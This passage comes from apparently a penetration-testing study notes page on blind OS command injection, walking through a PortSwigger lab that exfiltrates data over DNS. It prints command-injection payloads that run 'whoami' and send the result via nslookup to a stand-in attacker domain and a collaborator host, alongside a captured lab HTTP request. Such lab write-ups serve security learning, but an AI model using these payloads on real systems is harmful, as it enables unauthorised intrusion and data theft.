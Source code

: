 ##### Exfiltrate data

It may be possible to extract data with out-of-band interaction. An example is below:

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

??? example "PortSwigger OS Command Injection Lab 5: Blind OS command injection with out-of-band data exfiltration"

	This lab has a user feedback submission form. 
	
	```
	POST /feedback/submit HTTP/2
	Host: 0ab200d703b4c1df84bfd1a200c0009d.web-security-academy.net
	Cookie: session=ipo87j6SKo7fXskaWXQme9mDas4wz3wF
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 107
	Origin: https://0ab200d703b4c1df84bfd1a200c0009d.web-security-academy.net
	Referer: https://0ab200d703b4c1df84bfd1a200c0009d.web-security-academy.net/feedback
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors
	Sec-Fetch-Site: same-origin
	X-Pwnfox-Color: magenta
	Priority: u=0
	Te: trailers
	
	csrf=fUs7WBQ50Gax7PgQXx4dVbDcyQiBbsBA&name=Tester&email=tester%40test.com&subject=Test&message=Test+message
	```
	
	```
	HTTP/2 200 OK
	Content-Type: application/json; charset=utf-8
	X-Frame-Options: SAMEORIGIN
	Content-Length: 2
	
	{}
	```
	
	I'm sending the following payload in the email field:
	
	```
	&nslookup `whoami`.r0shockfscjy0ox7a88vh66w9nfe35ru.oastify.com&
	```
	